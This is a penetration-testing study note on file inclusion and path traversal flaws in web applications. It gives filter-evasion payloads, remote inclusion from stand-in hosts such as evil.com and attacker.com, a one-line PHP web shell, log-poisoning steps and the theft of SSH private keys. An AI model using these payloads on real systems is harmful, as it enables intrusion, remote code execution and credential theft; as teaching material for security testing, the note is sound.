 # Local/Remote File Inclusion OR Path Traversal

_Notes from lessons by PinkDraconian_

**What are File Inclusions?**

Consider a URL: `https://example.com/view?file=cats.txt`

The backend code accepts unsanitized user input:
```
$file = $_GET['file'];
include($file);
```

Threat - Attacker can use this to retrieve (include) any other file: `https://example.com/view?file=../../etc/passwd`

Two types:
1. **Local FI** : If the included file is local to the target (like the /etc/passwd file). Common but hard to exploit.
2. **Remote FI** : If the inlcuded file is remote to the target (attacker hosted exploit being executed by the target server). Less common but easier to exploit.

Severity: By itself it is low. Need to chain it to make it impactful. Eg: LFI leading to RCE or sensitive info exposure.

**How to find a target?**

Scenarios to lookout for:
1. Files fetched and printed to a page. `https://example.com/?file=cats.txt`
2. Files served as downloads. `https://example.com/?download=cats.mp4`
3. Files parsed by a backend interpreter. `https://example.com?load=cats.php`
4. The above examples are GET parameters. We should also look at POST fields.

List of useful parameters
```
cat   dir   action    board   date
detail    file    download    path    
folder    prefix    include   page
inc   locate    show    doc   site
type    view    content   document
layout    mod
```

## Test if the target is vulnerable
1. Grab a file that you know will exist on the system
```
Linux: /etc/passwd
Windows: %WINDIR%\win.ini
MacOS: /etc/fstab
```
2. Add a lot of `../../../` because you neet to reach `/`. And `../` of `/` is `/`.

## Evade Filters:

1. Null Byte Termination
```
?param=../../../etc/passwd%00
```
2. Double HTML encoding
3. UTF-8 encoding
4. Path and Dot truncation - PHP truncates very long filenames
```
?param-../../../etc/passwd........[Add more]
?param-../../../etc/passwd\.\.\.\.[Add more]
?param-../../../etc/passwd/./././.[Add more]
?param-../../../[Add more]../../../etc/passwd
```
5. Add extra ../ If a system removes `../` from `....//` it will still be `../`
```
?param=....//....//etc/passwd
?param=..///////..////..//////etc/passwd
?param=..///////..////..///////etc/passwd
```
6. NGINX Alias LFI
If there is an alias mapping like
```
location /i {
  alias /data/w3/images/;
 }
```
If we browse to `/i../` instead of `i` -> we will browse to `/data/w3` instead of `/data/w3/images`

7. Basic RFI
```
?param=http://evil.com/shell.php
```
8. SMB Shares - In PHP when `allow_url_include` and `allow_url_fopen` are disabled, we can use SMB shares (windows only) for file inclusion.
```
?param=\\IP\SHARE\shell.php
```

## Towards RCE

### 1. Host a malicious file on attacker's website
```
<?php 
system($_GET['c']);
?>
```
Include the malicious file
```
https://example.com/index.php?file=http://attacker.com/mal.php
```

### 2. Apache logs LFI
- You can make a request with the payload as a header. This will write it to the log file `/var/log/apache2/access.log`. 
- If you can include the log file, the server might execute the payload code.
```
# Make a request to 
https://example.com/index.php?file=/var/log/apache2/access.log&c=whoami
# Add the payload as User-Agent string
<?php system($_GET['c']);?>
```
Check if response has the output of the command passed using `c` parameter.

### 3. Through `/proc/self/environ`
- The `/proc/self/environ` contains information about the current process which is the web server.
- You can make a request with the payload as a User-Agent header.
- If you can include the `/proc/self/environ` file, you might see the result of the payload executed.


### 4. Through email
- You can send an email containing the payload to a USER.
- If you can include `/var/mail/USER`, you might see the result of the payload executed.

### 5. Using VSFTPD log
- The VSFTPD log is `/var/log/vsftpd.log`
- We can login to the VSFTPD service with the payload as the username. This invalid login will be logged.
- If you can include `/var/log/vsftpd.log`, you might see the result of the payload executed.

### 6. Using File upload
- Upload a malicious file and include it.
- Upload a zip file (file.zip) containing a php file (rce.php). Include using a **zip wrapper** `zip://file.zip%23rce.php`

### 7. Using exposed `phpinfo()`
- Check if `file_uploads = on` in the exposed phpinfo() page.
- Upload a malicious file using phpinfo. It will be stored in `/tmp` for a very short period of time.

### 8. Through SSH
- Include `/home/USER/.ssh/id_rsa`
- Get the rpivate key and crack it if needed.
- Then SSH as the user `ssh -i id_rsa user@ip`.

### 9. Through PHP sessions
- PHP session cookie info is stored in `/var/lib/php5/sess_COOKIE` file.
- Change the cookie value to the payload. It will be logged.
- If included it may show the result of payload execution.

### 10. Through `/proc/PID/fd/FD` [NOT FEASIBLE]
- Send payloads in as many services (processes) as possible.
- Bruteforce the PID and fd to find a process log file that has the result of the payload execution.

**Wrappers**

We can use wrappers to fetch source code. This itself is a vulnerability,but can als be used for further white-box analysis.

1. php://filter 
2. data://
3. input://
4. zip://
5. phar://
6. expect:// (not enabled by default)

**Wordlists**
1. [Sec lists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
2. [List of files to look at](https://github.com/hussein98d/LFI-files)

**Resources**
1. [Apache LFI using log poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) 
2. [Wrappers Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

